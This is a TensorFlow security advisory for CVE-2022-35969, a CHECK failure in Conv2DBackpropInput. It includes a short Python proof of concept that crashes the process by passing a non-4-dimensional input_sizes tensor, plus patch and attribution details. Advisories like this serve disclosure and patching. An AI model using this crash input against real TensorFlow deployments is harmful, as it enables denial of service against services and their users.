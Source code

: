## TFSA-2022-101: `CHECK` fail in `Conv2DBackpropInput`

### CVE Number
CVE-2022-35969

### Impact
The implementation of `Conv2DBackpropInput` requires `input_sizes` to be 4-dimensional. Otherwise, it gives a `CHECK` failure which can be used to trigger a denial of service attack:
```python
import tensorflow as tf

strides = [1, 1, 1, 1]
padding = "SAME"
use_cudnn_on_gpu = True
explicit_paddings = []
data_format = "NHWC"
dilations = [1, 1, 1, 1]
input_sizes = tf.constant([65534,65534], shape=[2], dtype=tf.int32)
filter = tf.constant(0.159749106, shape=[3,3,2,2], dtype=tf.float32)
out_backprop = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.Conv2DBackpropInput(input_sizes=input_sizes, filter=filter, out_backprop=out_backprop, strides=strides, padding=padding, use_cudnn_on_gpu=use_cudnn_on_gpu, explicit_paddings=explicit_paddings, data_format=data_format, dilations=dilations)
```

### Patches
We have patched the issue in GitHub commit [50156d547b9a1da0144d7babe665cf690305b33c](https://github.com/tensorflow/tensorflow/commit/50156d547b9a1da0144d7babe665cf690305b33c).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
